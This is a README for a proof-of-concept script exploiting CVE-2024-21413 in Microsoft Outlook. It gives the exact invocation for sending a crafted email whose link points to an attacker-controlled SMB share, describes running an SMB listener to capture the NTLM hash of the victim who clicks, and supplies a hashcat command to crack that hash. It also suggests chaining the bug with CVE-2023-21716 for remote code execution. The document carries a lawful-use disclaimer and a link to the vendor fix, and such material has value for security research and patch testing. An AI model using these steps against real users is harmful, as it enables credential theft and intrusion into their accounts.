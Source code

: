 # CVE-2024-21413 - Expect Script POC

Microsoft Outlook Leak credentials & Remote Code Execution Vulnerability when chained with CVE-2023-21716 (through the preview panel)
CVSS:3.1 9.8 / 8.5

Outlook should warm you about the risk on opening an external link => but this is not the case!

![image](https://github.com/duy-31/CVE-2024-21413/assets/20819326/3ad8442f-098b-4758-ac82-9ecf8970311f)

usage: ./cve-2024-21413.sh mx.fqdn port sender recipient url

./cve-2024-21413.sh mail.mydomain.com 25 me@home.com to@other.com "\\\\xx.xx.xx.xx\\test\\duy31.txt"

notes: chmod +x cve-2024-21413.sh

require app expect & require legitimate ip sender and email sender (to pass SPF, DKIM, DMARC)

---------------

- First run a smb listener like that
  
![image](https://github.com/duy-31/CVE-2024-21413/assets/20819326/aa7ed0a7-0da1-4555-bcd1-ef498d284c03)

- run the poc

![image](https://github.com/duy-31/CVE-2024-21413/assets/20819326/035b597d-c737-4002-afbb-9964bb5c0505)

- and wait for the email & in the preview windows click on the link

![image](https://github.com/duy-31/CVE-2024-21413/assets/20819326/f85c5add-6f40-47f9-9828-eccbc9788317)


- then you should retrieve the login & hash of the person that clicked on the link (without the warning prompt on affected outlook version)

  ![image](https://github.com/duy-31/CVE-2024-21413/assets/20819326/eabfbb68-adc6-4862-85da-5040fd8e557c)

- You can then try to crack the password with hashcat. Just copy all the line with the login name to a file and run hashcat with module 5600

hashcat -a 0 -m 5600 hash.txt rockyou.txt -o cracked.txt -O

- You can chain this CVE with CVE-2023-21716 to obtain RCE !!! 

-------------------

Kudos: [https://research.checkpoint.com/2024/the-risks-of-the-monikerlink-bug-in-microsoft-outlook-and-the-big-picture/]

Workaround/Fix: [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-21413]

-------------------

more about me ;) https://www.linkedin.com/in/duy-huan-bui/

⚠️ Disclaimer: IMPORTANT: This script is provided for educational, ethical testing, and lawful use ONLY. Do not use it on any system or network without explicit permission. Unauthorized access to computer systems and networks is illegal, and users caught performing unauthorized activities are subject to legal actions. The author is NOT responsible for any damage caused by the misuse of this script.
